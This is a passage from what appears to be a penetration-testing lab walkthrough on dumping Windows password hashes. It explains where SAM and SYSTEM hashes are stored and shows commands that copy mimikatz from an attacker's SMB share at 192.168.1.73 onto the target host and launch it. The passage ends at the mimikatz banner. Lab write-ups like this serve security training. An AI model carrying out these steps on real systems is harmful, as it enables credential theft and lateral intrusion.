 Location
The hashes are located in the Windows\System32\config directory using both the SAM and SYSTEM files. In addition it’s also located in the registry file HKEY_LOCAL_MACHINE\SAM which cannot be accessed during run time. Finally backup copies can be often found in Windows\Repair.

But if you try to ‘type’ C:\Windows\System32\config\SAM or system you’ll get a

The process cannot access the file because it is being used by another process
Fortunately we have mimikatz to do the pillaging for us. Mimikatz requires NT AUTHORITY permissions and is integrated into Meterpreter but since we are avoiding Metasploit let’s do without it. I followed this video



As the video demonstrates, download mimikatz_trunk.zip from here. Unfortunately Windows doesn’t have a built-in unzip capability for the command line (not without Powershell) so you’ll have to unzip the contents in Kali. Don’t worry the Win32 folder inside has just 4 files

4 mimikatz trunk contents.png

Transfer these 4 files over

C:\>dir \\192.168.1.73\Lab\mimikatz_win32
dir \\192.168.1.73\Lab\mimikatz_win32
 Volume in drive \\192.168.1.73\Lab has no label.
 Volume Serial Number is ABCD-EFAA

 Directory of \\192.168.1.73\Lab\mimikatz_win32

02/25/2019  09:39 PM    DIR          .
02/25/2019  09:39 PM    DIR          ..
12/10/2018  06:58 AM            41,112 mimilib.dll
01/23/2013  06:58 AM            28,920 mimidrv.sys
12/10/2018  06:58 AM            36,504 mimilove.exe
12/10/2018  06:58 AM           748,696 mimikatz.exe
               4 File(s)        863,424 bytes
               2 Dir(s)  15,207,469,056 bytes free

C:\>md mimikatz
md mimikatz

C:\>cd mimikatz
cd mimikatz

C:\mimikatz>copy \\192.168.1.73\Lab\mimikatz_win32\*.* .
copy \\192.168.1.73\Lab\mimikatz_win32\*.* .
\\192.168.1.73\Lab\mimikatz_win32\mimilib.dll
\\192.168.1.73\Lab\mimikatz_win32\mimidrv.sys
\\192.168.1.73\Lab\mimikatz_win32\mimilove.exe
\\192.168.1.73\Lab\mimikatz_win32\mimikatz.exe
        4 file(s) copied.
Now run mimikatz. The video and github README.md explains how to dump the hashes.

C:\mimikatz>mimikatz.exe 
mimikatz.exe

  .#####.   mimikatz 2.1.1 (x86) #17763 Dec  9 2018 23:56:27
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
